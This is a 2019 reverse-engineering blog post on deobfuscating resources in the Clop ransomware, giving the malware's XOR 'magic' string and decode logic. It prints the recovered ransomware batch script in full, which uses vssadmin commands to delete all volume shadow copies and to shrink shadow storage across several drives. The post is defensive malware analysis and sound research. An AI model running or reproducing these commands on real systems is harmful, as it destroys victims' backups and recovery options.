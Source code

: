 +++
title = "Deobfuscating Clop ransomware resources"
description = "A deobfuscator tool for extracted resources from Clop ransomware"
tags = [
    "ransomware",
    "clop",
    "reverse-engineering"
]
date = "2019-03-31"
categories = [
    "Malware",
    "Reverse Engineering",
]
author = "Dan"
summary = true 
+++

[A colleague](https://github.com/digitalcroqueta) and I reverse-engineered the Clop ransomware binary (with SHA256 hash value `2f29950640d024779134334cad79e2013871afa08c7be94356694db12ee437e2`), and observed that it contained two obfuscated resources:

* SIXSIX
* SIXSIX1

One of them is just the README file that the malware drops all over the disk, so nothing too exciting, but the other is a batch script that deletes the volume shadow copies. Granted, you could just debug it and get it to drop these files, but as a personal challenge I decided to write a deobfuscator based on my analysis of the decompiled code (I looked at it in both Ghidra and IDA Pro, the latter of which was much more helpful in this case). After spending a bit of time labeling each variable/function, this is the relevant decompiled section of code:

<script src="https://gist.github.com/danzek/a5ff18c455101e892d8717654338cae0.js"></script>

Beginning with this decompiled code, I quickly whipped up [a deobfuscator in C++](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.cpp), basically mimicking the decompiled code (with a couple minor shortcuts), which [I've made available on GitHub.](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.cpp) Shortly thereafter, I decided to write [a Python 3 version](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.py) that is much shorter (and cross-platform compatible), which is [now also on my GitHub.](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.py)

The ransomware has a hardcoded "magic" string that it uses to deobfuscate the resources:

```
CHAR clopDecodeResourceSIXSIX1_MagicString[] = "Clopfdwsjkjr23LKhuifdhwui73826ygGKUJFHGdwsieflkdsj324765tZPKQWLjwNVBFHewiuhryui32JKG";
```

From there it iterates over each byte in the file and XORs it by itself and the modulus (remainder) of the current byte offset and `0x42` (decimal value `66`) as an offset/subscript into the magic string:

```
*((BYTE *)hResourceMemory + i) ^= clopDecodeResourceSIXSIX1_MagicString[i % 66];
```

And here's our prize:

```
@echo off
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
```

That's really all there is to it. The rest of the code is mostly just memory management and writing the deobfuscated data to a file.

